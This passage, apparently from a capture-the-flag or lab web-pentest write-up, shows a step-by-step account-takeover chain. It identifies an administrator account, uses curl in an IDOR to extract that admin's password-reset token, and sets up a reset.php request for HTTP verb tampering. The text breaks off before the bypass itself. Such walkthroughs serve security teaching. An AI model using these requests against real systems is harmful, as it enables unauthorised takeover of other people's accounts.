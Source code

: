 **🎯 Target Identified:** User `a.corrales` (UID: 52) has Administrator privileges

---

### Phase 3: Token Extraction via IDOR

#### Step 6: Analyze Password Reset Functionality  

**Discovery Process:**
1. Navigate to **Settings** → **Change Password**
2. Monitor network requests in Developer Tools
3. Identify token retrieval endpoint

**Token API Discovered:** `/api.php/token/74`

**Normal Token Request:**
```http
GET /api.php/token/74 HTTP/1.1
Host: target.com
Cookie: PHPSESSID=abc123...

Response: e51a8a14-17ac-11ec-8e67-a3c050fe0c26
```

#### Step 7: Extract Admin User Token

**IDOR Token Extraction:**
```bash
# Extract token for admin user (UID: 52)
curl -s -H "Cookie: PHPSESSID=[SESSION]" \
    "http://target.com/api.php/token/52"

# Response: e51a85fa-17ac-11ec-8e51-e78234eb7b0c
```

**🔑 Admin Token Obtained:** `e51a85fa-17ac-11ec-8e51-e78234eb7b0c`

---

### Phase 4: HTTP Verb Tampering for Authorization Bypass

#### Step 8: Analyze Password Reset Mechanism

**Reset Password Endpoint:** `/reset.php`

**Normal POST Request Structure:**
```http
POST /reset.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=abc123...

uid=74&token=e51a8a14-17ac-11ec-8e67-a3c050fe0c26&password=newpass123
```

#### Step 9: Attempt Direct Password Reset (Fails)
